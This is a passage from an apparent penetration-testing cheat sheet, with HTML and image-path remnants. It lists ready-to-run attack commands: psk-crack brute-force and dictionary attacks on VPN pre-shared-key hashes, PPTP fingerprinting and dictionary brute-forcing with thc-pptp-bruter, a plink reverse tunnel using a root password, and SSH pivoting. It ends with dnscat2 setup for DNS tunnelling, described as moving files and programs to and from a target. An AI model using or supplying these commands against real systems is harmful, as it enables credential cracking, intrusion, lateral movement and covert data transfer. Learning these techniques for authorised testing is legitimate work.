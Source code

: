         </div>

        Use psk-crack to crack the PSK hash

        <div class="highlight highlight-source-shell">

        <pre>psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset=<span class="pl-s"><span class="pl-pds">"</span>01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz<span class="pl-pds">"</span></span> 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key</pre>

        </div>

*   PPTP Hacking

    *   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:

        `nmap –Pn -sV -p 1723 TARGET(S)` PPTP Dictionary Attack

        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

*   Port Forwarding/Redirection

*   PuTTY Link tunnel - SSH Tunneling

    *   Forward remote port to local address:

        `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

*   SSH Pivoting

    *   SSH pivoting from one network to another:

        `ssh -D <local host>:1010 -p 22 user@<remote host>`

*   DNS Tunneling

    *   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.

    *   Attacking Machine Installation:

        <div class="highlight highlight-source-shell">

        <pre>apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        <span class="pl-c1">cd</span> dnscat2/server  
        bundle install</pre>

        </div>

    *   Run dnscat2:

            ruby ./dnscat2.rb  
            dnscat2> New session established: 1422  
            dnscat2> session -i 1422
